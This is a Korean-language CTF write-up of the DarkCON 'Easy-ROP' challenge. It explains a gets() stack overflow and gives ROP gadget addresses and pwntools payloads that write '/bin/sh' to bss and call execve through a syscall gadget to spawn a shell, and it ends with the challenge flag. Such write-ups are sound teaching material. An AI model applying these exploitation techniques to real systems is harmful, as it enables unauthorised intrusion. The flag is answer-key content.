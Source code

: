 # [DarkCON CTF] Easy-ROP

## Info

+ 84 solves / 441 points

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

## Summary

+ stack buffer overflow
+ ret2libc
+ ret2syscall

## File

+ Arch : x86-64
+ Library : statically linked

## Checksec

+ CANARY : Enabled
+ FORTIFY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

바이너리에서 유의미한 함수는 하나뿐이다.

+ main

gets()에 의해 스택 버퍼 오버플로우가 발생한다.

## Exploit

**ROPgadget**

```python
syscall = 0x004012d3
prax = 0x004175eb
prdi = 0x0040191a
prsi = 0x0040f4be
prdx = 0x0047560e
```

rdi, rdi, rdx, rax를 제어할 수 있고, syscall 가젯 또한 존재하므로 "/bin/sh" 문자열이 존재한다면 문제를 해결할 수 있다.

**Write binsh at bss**

```python
payload = b"A"*0x48
payload += p64(prdi)
payload += p64(bss)
payload += p64(gets)
p.sendline(payload)

payload = b"/bin/sh\x00"
p.sendline(payload)
```

ret2libc를 통해 gets() 함수를 호출해 bss 영역에 binsh 문자열을 작성해주자. 이제 binsh 문자열의 주소를 system의 인자로 전달해 줄 수 있다.

**Call system("/bin/sh") using syscall gadget**

```python
payload += p64(prdi)
payload += p64(bss)
payload += p64(prsi)
payload += p64(0)
payload += p64(prdx)
payload += p64(0) + p64(0) + p64(0)
payload += p64(prax)
payload += p64(0x3b)
payload += p64(syscall)
p.sendline(payload)
```

마지막으로 syscall과 binsh를 이용해 system("/bin/sh")를 호출하면 쉘을 취득할 수 있다.

## Flag

+ darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
